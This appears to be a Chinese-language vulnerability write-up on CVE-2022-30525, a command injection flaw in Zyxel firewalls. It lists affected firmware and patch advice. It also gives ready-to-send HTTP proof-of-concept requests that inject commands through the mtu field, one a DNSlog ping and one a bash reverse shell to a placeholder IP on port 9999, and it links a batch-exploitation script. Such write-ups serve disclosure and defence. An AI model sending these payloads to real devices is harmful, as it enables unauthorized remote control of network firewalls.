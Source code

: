 # Zyxel 防火墙未经身份验证的远程命令注入(CVE-2022-30525)




## 漏洞说明

ZyXEL USG FLEX 等都是中国台湾合勤（ZyXEL）公司的防火墙产品。2022年5月12日， Zyxel发布安全公告，修复了一个存在于部分防火墙版本的CGI程序中的命令注入漏洞。漏洞编号：CVE-2022-30525，漏洞威胁等级：严重，漏洞评分：9.8。

该漏洞存在于某些Zyxel防火墙版本的 CGI 程序中，允许在未经身份验证的情况下在受影响设备上以nobody用户身份执行任意命令。



## 影响范围

ATP系列固件：5.10-5.21 Patch 1

VPN系列固件：4.60-5.21 Patch 1

USG FLEX 100(W)、200、500、700：5.00-5.21 Patch 1

USG FLEX 50(W)/USG20(W)-VPN：5.10-5.21 Patch 1





## 漏洞复现

出现漏洞的文件为 `lib_wan_settings.py` 下的 `setWanPortSt` 方法，从源码里可以看到拼接的参数为 `mtu` , 随后直接 `os.system` 命令执行

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h275pdfbkaj20u00w2jvg.jpg)





**手工验证：**

POC：

其中`mtu`参数后面为要执行的命令

```http
POST /ztp/cgi-bin/handler HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json
Connection: close
Content-Length: 165

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":"; ping {DNSlog};","data":"hi"}
```

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h274aj5tbsj225c0pmwj1.jpg)



反弹Shell:

```http
POST /ztp/cgi-bin/handler HTTP/1.1
Host: host
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json
Connection: close
Content-Length: 165

{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged"
:"1","vlanid":"5","mtu":";bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1';","data":"hi"}
```





**批量验证：**

脚本地址：https://github.com/shuai06/CVE-2022-30525

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h274kbmig8j21yc0dyjti.jpg)

![](https://tva1.sinaimg.cn/large/e6c9d24ely1h274q3zr04j21v40i20vf.jpg)



## 修复建议

厂商已发布补丁修复漏洞，用户请尽快更新至安全版本：ZLD V5.30。

下载链接如下：https://www.zyxel.com/support/download_landing.shtml







## 参考链接

https://mp.weixin.qq.com/s/du56JX1ft03Z-YtM2C2E8A









---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/zyxel-%E9%98%B2%E7%81%AB%E5%A2%99%E6%9C%AA%E7%BB%8F%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%9A%84%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5-cve-2022-30525/  


